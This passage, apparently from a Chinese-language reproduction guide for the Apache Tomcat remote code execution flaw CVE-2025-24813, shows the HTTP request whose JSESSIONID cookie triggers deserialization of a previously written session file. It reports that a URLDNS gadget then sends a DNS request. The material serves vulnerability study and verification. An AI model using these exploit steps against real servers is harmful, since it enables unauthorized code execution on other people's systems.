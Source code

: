 可以看到，文件 `.deserialize.session` 已经被写入：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317140742989.png)

然后，发送另一个带有 JSESSIONID cookie 的请求，触发文件 `.deserialize.session` 的反序列化：

```
GET / HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=.deserialize 
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317114246305.png)

URLDNS gadget 被成功反序列化，并发送了 DNS 请求：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317112514451.png)
